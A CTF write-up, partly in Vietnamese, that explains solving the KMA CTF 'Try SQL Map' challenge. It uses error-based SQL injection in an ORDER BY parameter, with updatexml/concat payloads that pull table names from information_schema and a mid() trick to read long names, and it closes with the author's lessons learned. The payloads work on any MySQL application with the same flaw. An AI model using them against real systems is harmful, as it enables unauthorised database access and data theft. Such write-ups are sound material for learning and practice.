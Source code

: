 # KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

## PHÂN TÍCH
Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY: `http://try-sqlmap.ctf.actvn.edu.vn/?order=id`

Câu truy vấn có thể sẽ như sau:

```
SELECT column_name from table_name order by $_GET[order]
```

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fully obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`, we got the table name.

Same with column and flag using column_name from information_schema.tables --> select column_name from flahga123456789xxsxx012xxxxxxxxx34567xx1....

**flag**: `KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}`

**Góc than thở**:
```html
Mình chỉ cặm cụi với extractvalue(), mặc dù nó không sai nhưng chỉ biết thay đổi main query mà không thay đổi cấu trúc syntax toàn câu lệnh. Mặc dù đây là error based nhưng không có nghĩa nó sẽ trả về error của error mà chỉ là kết quả lệnh đó, nếu không sẽ chỉ trả về NULL. Mình cần stick với challenge lâu hơn và thử tất cả, điều chỉnh tỉ mỉ từng query cho đến khi bế tắc thay vì nhảy cóc và 'cho rằng' nên không thử. 

Hàm extractvalue ở payload all the things nó dùng random() để gây lỗi, nhưng ta chỉ cần số 0 là có thể gây lỗi rồi trong khi random có thể  bị block hay raise error, phải try everything. Haiz!!

Vì khi error/không có gì nó sẽ trả về NULL, nhưng thật ra là do khi mình query information_schema.tables nó sẽ trả về nhiều column lẫn rows nên gây ra lỗi trong khi trigger như select 'devme' lại không, do đó mình luôn cần dùng concat/group_concat cho đến limit/offset. Blind error nhưng không biết detect error thì không xứng đáng được flag. Đừng tự tin là mình đã biết mà cần tự tin là mình đã chai và nhàm các dạng này.
```
